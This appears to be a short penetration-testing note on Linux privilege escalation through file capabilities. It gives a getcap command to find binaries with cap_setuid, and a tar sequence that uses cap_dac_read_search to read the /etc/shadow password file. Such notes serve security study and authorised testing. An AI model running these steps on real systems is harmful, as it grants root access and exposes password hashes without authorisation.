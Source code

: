 -- -
Similar vector to SUID bit being set. If capabilities are set, it will run from the perspective of root which you can then just hijack to get a shell.
```bash
# find capabilities set on programs
# looking for something like:
# /usr/bin/python2.6 = cap_setuid+ep
# 
# have also pulled it off with:
# /usr/bin/python3.6 = cap_setuid,<other shit> 
getcap -r / 2>/dev/null
```
Then go check [GTFOBins](https://gtfobins.github.io) like you would for the SUID bit.
#### cap_dac_read_search
```bash
# Output you want:
# cap_dac_read_search+ep
# This will allow you to read files on the filesystem as root, so go to GTFObins and do a file read with whatever program comes out if different that the tar show below.
# If tar has this capability:
tar cf shadow.tar /etc/shadow
tar xf shadow.tar
cat /etc/shadow
```
#### Resources
- [Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
- [SUID v Capabilities](https://mn3m.info/posts/suid-vs-capabilities/)
- [Capabilities Privesc via OpenSSL w/ SELinux Enabled & Enforced](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)